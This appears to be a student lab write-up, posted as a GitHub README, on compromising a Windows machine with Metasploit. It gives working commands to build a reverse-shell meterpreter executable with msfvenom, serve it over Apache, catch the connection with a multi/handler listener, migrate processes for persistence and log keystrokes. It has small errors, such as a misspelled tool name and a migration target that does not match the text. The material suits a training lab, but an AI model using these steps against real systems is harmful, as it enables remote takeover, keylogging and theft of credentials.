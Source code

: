 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![WhatsApp Image 2025-04-20 at 08 09 04_4867da55](https://github.com/user-attachments/assets/c4758ba2-22f9-491a-a98e-49181e8cc58d)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![WhatsApp Image 2025-04-20 at 08 11 32_8d286a33](https://github.com/user-attachments/assets/9e89cc2c-7e3f-4701-9853-11af448d4a41)






copy the fun.exe into the apache /var/www/html folder
![WhatsApp Image 2025-04-20 at 08 13 00_4ca2c83c](https://github.com/user-attachments/assets/ca0125ba-e5bb-4f2e-bb9e-84cf29999884)




Start apache server
sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/e6e7d070-d72c-408d-a1f4-77f5cb003f98)



Check the status of apache2
![image](https://github.com/user-attachments/assets/61dcbda4-c69c-47b6-ada7-fe6b8838eb39)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 115214](https://github.com/user-attachments/assets/ea384ca5-6c96-405e-9b45-b23f4e9fab41)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-07 115416](https://github.com/user-attachments/assets/c77d859f-ec36-4ce5-a9d5-e54633f390c7)



Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-07 115242](https://github.com/user-attachments/assets/13ef9689-8a76-4d7c-bb44-0e4ee9807099)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![{F7D2ED4C-13F1-4F4C-B951-BEB85E88527E}](https://github.com/user-attachments/assets/337f3a58-b9d7-413a-9619-eaa764b32dd9)



keyscan_dump	Shows the keystrokes captured so far

![{970C702A-B8E4-4F86-8022-F68564FCAD87}](https://github.com/user-attachments/assets/42a6d320-d01e-4694-addb-c39220915f08)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
